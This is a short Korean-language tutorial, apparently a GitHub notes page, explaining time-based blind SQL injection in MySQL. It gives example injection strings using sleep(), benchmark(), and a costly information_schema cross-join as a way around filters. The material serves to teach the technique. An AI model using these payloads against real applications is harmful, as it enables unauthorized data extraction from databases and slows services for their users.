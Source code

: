 # Time based blind sqli

#### Time based blind sqli 란
 
> blind sqli 를 시도해도 참인이 거짓인지 반환을 받지 못할때 시간지연 함수로 참과 거짓의 값을 가져온다.

db 예)

```sql
database -> test
tables -> member
column -> id, pw
column data -> (admin , password) (guest, guest)
```


Query 예)

```sql
SELECT * FROM member WHERE id='' or 1=1 and sleep(1);--and pw='';

SELECT * FROM member WHERE id='' and pw='' or 1=1 and sleep(1);--'';

# 1=1 과 sleep(1) 가 참이므로 작동이 된다.
# 1=1 식 자체는 참이고 sleep(1) 는 실행만 잘 되면 참이기때문에
# 시간지연이 일어나면서 참이라는 값을 얻게 된다.
```

하지만 이처럼 sleep() 같은 시간지연 함수가 필터링 될때에는 다양한 방법중에
자주 쓰이는 방법은 3개의 함수, 쿼리가있다.

```sql
sleep()

benchmark()

SELECT count(*) FROM information_schema.columns A , information_schema.columns B , information_schema.columns C;
```

이 3개의 방법을을 응용하여 

time-based sql injection 쿼리를 만든다면

이렇게 완성된다.
```sql

SELECT * FROM member WHERE id='' or 1=1 and sleep(10);

SELECT * FROM member WHERE id='' or 1=1 and benchmark(73900000*10,md5(1));

SELECT * FROM member WHERE id='' or 1=1 and (SELECT count(*) FROM information_schema.columns A, information_schema.columns B);
```

### sleep()

__sleep() 함수는 사용할시에 시간지연을 시킨다.__

sleep(지연시키고싶은 시간(초 단위))

sleep() 함수는 정속적으로 지연되면 True 
그렇지 않다면 False 를 반환한다.

### benchmark()

__benchmark() 함수는 특정 연산 또는 구문을 반복시킨다.__

menchmark(반복할 개수, 연산)

이런식으로 인자를 넣어서 자신이 원하는 만큼만 반복을 시킨다음

반복하는 과정에서 시간지연이 생기게 된다.


### information_schema.columns

해당 쿼리는 수많은 컬럼들을 COUNT(*) 로 한번에 불러오다보니깐

불러오는 과정에서 시간지연이 생기게 되버린다.

![information image](./image/mysql-informaction.png)

밑의 1 row in set (42.55 sec) 가 나온것을 확인할수있다.

즉 count(*)로 합치면서 information_schema.columns A 와 B 를 SELECT 하면서

약 42 초가 걸리게 된다.



### 마무리

핵심은 저런 함수만 사용이 가능하는것이 아닌

Time based sql injection 인 만큼

시간 지연 가능한 쿼리만 잘 짜서 요청을 하면 된다.